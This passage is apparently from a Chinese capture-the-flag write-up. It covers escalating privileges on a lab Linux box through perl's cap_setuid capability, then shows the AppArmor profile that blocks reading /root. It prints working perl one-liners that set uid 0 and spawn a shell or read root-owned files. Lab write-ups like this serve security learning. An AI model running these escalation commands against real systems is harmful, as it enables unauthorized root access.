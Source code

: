 发现perl有cap_setuid+ep属性，可以通过perl提权
参考[https://gtfobins.github.io/gtfobins/perl/#capabilities](https://gtfobins.github.io/gtfobins/perl/#capabilities)

```bash
# 尝试提权
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
david@nunchucks:/tmp$ id
uid=1000(david) gid=1000(david) groups=1000(david)
# 未成功 - -

# 使用其他命令
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "id";' 
uid=0(root) gid=1000(david) groups=1000(david)
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";' 
cat: /root/root.txt: Permission denied # 无权限，什么鬼？
```

继续搜索...发现使用了AppArmor技术

> **AppArmor**
> Introduction
> AppArmor is a Mandatory Access Control (MAC) system which is a kernel (LSM) enhancement to confine programs to a limited set of resources. AppArmor's security model is to bind access control attributes to programs rather than to users. AppArmor confinement is provided via profiles loaded into the kernel, typically on boot. AppArmor profiles can be in one of two modes: enforcement and complain. Profiles loaded in enforcement mode will result in enforcement of the policy defined in the profile as well as reporting policy violation attempts (either via syslog or auditd). Profiles in complain mode will not enforce policy but instead report policy violation attempts.
> AppArmor differs from some other MAC systems on Linux: it is path-based, it allows mixing of enforcement and complain mode profiles, it uses include files to ease development, and it has a far lower barrier to entry than other popular MAC systems.
> AppArmor is an established technology first seen in Immunix and later integrated into Ubuntu, Novell/SUSE, and Mandriva. Core AppArmor functionality is in the mainline Linux kernel from 2.6.36 onwards; work is ongoing by AppArmor, Ubuntu and other developers to merge additional AppArmor functionality into the mainline kernel.

查看/etc/apparmor.d/usr.bin.perl

```bash
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```
